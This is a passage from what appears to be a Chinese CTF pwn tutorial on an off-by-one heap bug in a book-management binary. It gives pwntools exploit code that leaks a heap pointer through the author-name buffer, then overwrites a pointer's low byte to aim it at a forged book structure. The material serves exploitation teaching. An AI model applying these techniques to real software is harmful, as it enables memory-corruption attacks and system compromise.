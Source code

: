 为了实现泄漏，首先在 author name 中需要输入 32 个字节来使得结束符被覆盖掉。之后我们创建 book1 ，这个 book1 的指针会覆盖 author name 中最后的 NULL 字节，使得该指针与 author name 直接连接，这样输出 author name 则可以获取到一个堆指针。

```
io.recvuntil('Enter author name:') # input author name
io.sendline('a' * 32)

io.recvuntil('>') # create book1
io.sendline('1')
io.recvuntil('Enter book name size:')
io.sendline('32')
io.recvuntil('Enter book name (Max 32 chars):')
io.sendline('object1')
io.recvuntil('Enter book description size:')
io.sendline('32')
io.recvuntil('Enter book description:')
io.sendline('object1')

io.recvuntil('>') # print book1
io.sendline('4')
io.recvuntil('Author:')
io.recvuntil('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa') # <== leak book1
book1_addr = io.recv(6)
book1_addr = book1_addr.ljust(8,'\x00')
book1_addr = u64(book1_addr)
```


#### off-by-one 覆盖指针低字节

程序中同样提供了一种 change 功能， change 功能用于修改 author name ，所以通过 change 可以写入 author name ，利用 off-by-one 覆盖 pointer array 第一个项的低字节。


覆盖掉 book1 指针的低字节后，这个指针会指向 book1 的 description ，由于程序提供了 edit 功能可以任意修改 description 中的内容。我们可以提前在 description 中布置数据伪造成一个 book 结构，这个 book 结构的 description 和 name 指针可以由直接控制。

```
def off_by_one(addr):
    addr += 58
    io.recvuntil('>')# create fake book in description
    io.sendline('3')
    fake_book_data = p64(0x1) + p64(addr) + p64(addr) + pack(0xffff)
    io.recvuntil('Enter new book description:')
    io.sendline(fake_book_data) # <== fake book


    io.recvuntil('>') # change author name
    io.sendline('5')
    io.recvuntil('Enter author name:')
    io.sendline('a' * 32) # <== off-by-one
```

这里在 description 中伪造了 book ，使用的数据是 p64(0x1)+p64(addr)+p64(addr)+pack(0xffff) 。
其中 addr+58 是为了使指针指向 book2 的指针地址，使得我们可以任意修改这些指针值。
